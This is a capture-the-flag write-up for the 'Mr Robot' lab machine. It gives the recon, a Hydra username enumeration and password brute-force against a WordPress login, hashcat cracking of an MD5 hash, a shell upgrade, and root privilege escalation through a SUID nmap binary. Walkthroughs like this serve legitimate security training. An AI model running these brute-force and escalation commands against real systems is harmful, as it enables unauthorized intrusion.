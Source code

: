 # Mr Robot CTF

### Recon

**nmap**

- 22 ssh closed
- 80 http open Apache httpd
- 443 ssl/http open Apache httpd

**Gobuster**

Identified Wordpress and PhpMyadmin CMS

/phpmyadmin only accessible using localhost, ssh tunnel?

fsocity.dic found in robots.txt, wordlist

**WPScan**

Wordpress user elliot found with hydra username enumeration

`hydra -L fsocity.dic -p test 10.10.215.227 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.89.107%2Fwp-admin%2F&testcookie=1:Invalid username" -V`

WP version: 4.3.1
Theme: twentyfifteen v1.3
Pagespeed version: 1.9.32.3-4523

XML-RPC enabled

Potential password attack with WPScan/hydra
Potential SQL injection

### Exploitation

Password attack with hydra, wordlist fsocity.dic found in robots.txt

`hydra -l elliot -P fsocity.dic 10.10.215.227 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.89.107%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V`

Found password for user elliot

### Privesc

Found robot home dir containing flag 2 and a raw-md5 password hash for user robot, cracked with hashcat

`hashcat -m 0 hash.txt rockyou.txt`

Upgrade reverse php shell to an interactive shell with python

`python -c 'import pty;pty.spawn("bin/bash")'`

su to robot and grab flag 2

Find any binaries with the suid bit set

`find / -type f -perm -04000 2>/dev/null`

Nmap is exploitable and gives us root

```
nmap --interactive
nmap> !sh
```
or
```
nmap --interactive
nmap>!bash -p
```

grab flag 3 from /root

### What is key 1?

Found in robots

### What is Key 2?

Found in /home/robot

### What is key 3?

Found in /root
